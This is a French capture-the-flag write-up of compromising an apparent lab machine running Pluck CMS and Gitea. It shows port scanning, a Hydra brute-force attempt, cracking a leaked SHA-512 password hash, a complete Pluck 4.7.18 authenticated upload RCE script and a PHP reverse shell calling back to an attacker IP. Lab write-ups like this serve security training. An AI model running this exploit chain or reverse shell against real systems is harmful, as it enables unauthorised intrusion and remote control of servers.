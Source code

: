 Tout d'abord on commence par un scan.
```bash
nmap -sV -v 10.10.11.25
```

On voit qu'ils y a 3 ports d'ouverts:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
3000/tcp open  ppp?
```

Si on accède le site web au port 80, on se rend compte qu'il s'agit du CMS Pluck:
```bash
 admin | powered by pluck 
```

Si on accède au port 3000, on se rend compte qu'il s'agit d'une instance de Gitea:
```bash
Powered by Gitea Version: 1.21.11
```

On scanne les répertoires pour pluck et gitea, mais rien de bien intéressant:
```bash
dirb http://greenhorn.htb/
dirb http://10.10.11.25:3000/
```

En accédant à la page de login de pluck, on se rend compte qu'il s'agit de la version 4.7.18:
```bash
http://greenhorn.htb/login.php
```
On voit aussi qu'il y a champ pour le mot de passe, pas de username.

En utilisant burp, on essaye un mot de passe bidon et on intercepte la requête:
```bash
POST /login.php HTTP/1.1
Host: greenhorn.htb
Content-Length: 31
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://greenhorn.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://greenhorn.htb/login.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=8pr8gvim4vq20s4mvbgaaknhet
Connection: close

cont1=test&bogus=&submit=Log+in
```
On voit que le champ pour le mot de passe se nomme `cont1` et il semble y avoir un champ bogus qui est envoyé aussi pour prévenir le bruteforce.

Une fois ces informations en mains, on essaye de cracker le login avec hydra et rockyou.txt:
```bash
hydra -v -V -d -l username -P /home/kali/rockyou.txt -t 16 -m "/login.php:cont1=^PASS^&bogus=&submit=Log+in:F=incorrect" http-post-form://greenhorn.htb 
```

Cependant, on se rend vite compte qu'il y a une protection contre le bruteforce
```bash
You have exceeded the number of login attempts. Please wait 5 minutes before logging in again.
```

Ayant épuisé les pistes pour pluck pour le moment, on tourne notre attention vers gitea.
En fouillant un peu, on trouve un répertoire qui semble héberger le code source pour pluck:
```bash
http://10.10.11.25:3000/GreenAdmin/GreenHorn
```

En poussant la recherche plus loin, on trouve 2 fichiers intéressants, token.php et pass.php:
```php
http://10.10.11.25:3000/GreenAdmin/GreenHorn/src/branch/main/data/settings/token.php
<?php $token = '65c1e5cf86b4d727962672211b91924b828a0c05ece3954c75e3befa6b361fa3eb28c407f7101bc4eae2c604c96c641575c7fe82dbdc6ce0cf7d4a006f53bac7'; ?>
```
```php
http://10.10.11.25:3000/GreenAdmin/GreenHorn/src/branch/main/data/settings/pass.php
<?php
$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';
?>
```

On réalise vite que pass.php contient un hash sha-512.
On tente donc de le décoder avec hashcat et rockyou.txt
```bash
echo "65c1e5cf86b4d727962672211b91924b828a0c05ece3954c75e3befa6b361fa3eb28c407f7101bc4eae2c604c96c641575c7fe82dbdc6ce0cf7d4a006f53bac7" > hash.txt
hashcat -m 1700 -a 0 hash.txt /home/kali/rockyou.txt
```

Une fois décodé, on obtient le mot de passe `iloveyou1`:
```bash
Dictionary cache hit:
* Filename..: /home/kali/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163:iloveyou1
```

Avec ce mot de passe, on est capable d'accéder à l'admin panel de pluck
```bash
http://greenhorn.htb/admin.php?action=start
```

Une fois l'accès à l'admin panel confirmé, on utilise le mot de passe avec le RCE suivant:

[upload-reverse-shell.py](https://www.exploit-db.com/exploits/51592)
```python
#Exploit Title: Pluck v4.7.18 - Remote Code Execution (RCE)
#Application: pluck
#Version: 4.7.18
#Bugs:  RCE
#Technology: PHP
#Vendor URL: https://github.com/pluck-cms/pluck
#Software Link: https://github.com/pluck-cms/pluck
#Date of found: 10-07-2023
#Author: Mirabbas Ağalarov
#Tested on: Linux 


import requests
from requests_toolbelt.multipart.encoder import MultipartEncoder

login_url = "http://greenhorn.htb/login.php"
upload_url = "http://greenhorn.htb/admin.php?action=installmodule"
headers = {"Referer": login_url,}
login_payload = {"cont1": "iloveyou1","bogus": "","submit": "Log in"}

file_path = "/home/kali/reverse-shell.zip"

multipart_data = MultipartEncoder(
    fields={
        "sendfile": ("reverse-shell.zip", open(file_path, "rb"), "application/zip"),
        "submit": "Upload"
    }
)

session = requests.Session()
login_response = session.post(login_url, headers=headers, data=login_payload)


if login_response.status_code == 200:
    print("Login account")

 
    upload_headers = {
        "Referer": upload_url,
        "Content-Type": multipart_data.content_type
    }
    upload_response = session.post(upload_url, headers=upload_headers, data=multipart_data)

    
    if upload_response.status_code == 200:
        print("ZIP file download.")
    else:
        print("ZIP file download error. Response code:", upload_response.status_code)
else:
    print("Login problem. response code:", login_response.status_code)


rce_url="http://localhost/pluck/data/modules/reverse-shell/reverse-shell.php"

rce=requests.get(rce_url)

print(rce.text)
```

Il ne reste plus qu'à créer le reverse-shell.zip avec le reverse-shell.php à l'intérieur pour être exécuté par le RCE:
```php
<?php
$ip = '10.10.14.174'; // change this to your IP address
$port = 4444; // change this to your listening port
$socket = fsockopen($ip, $port);
if ($socket) {
    $shell = 'uname -a; w; id; /bin/sh -i';
    fwrite($socket, $shell);
    while (!feof($socket)) {
        $command = fgets($socket);
        $output = '';
        if ($command) {
            $output = shell_exec($command);
            fwrite($socket, $output);
        }
    }
    fclose($socket);
}
?>
```
